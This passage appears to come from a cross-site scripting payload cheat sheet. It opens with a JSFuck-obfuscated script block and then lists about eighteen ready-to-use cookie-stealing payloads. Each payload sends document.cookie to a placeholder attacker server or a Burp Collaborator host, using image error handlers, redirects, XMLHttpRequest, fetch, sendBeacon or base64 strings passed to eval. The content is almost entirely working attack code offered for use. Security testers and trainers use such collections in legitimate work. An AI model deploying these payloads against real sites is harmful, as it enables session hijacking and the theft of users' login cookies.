 ```javascript
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```

## XSS common payloads

### Retrieve Cookies

```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```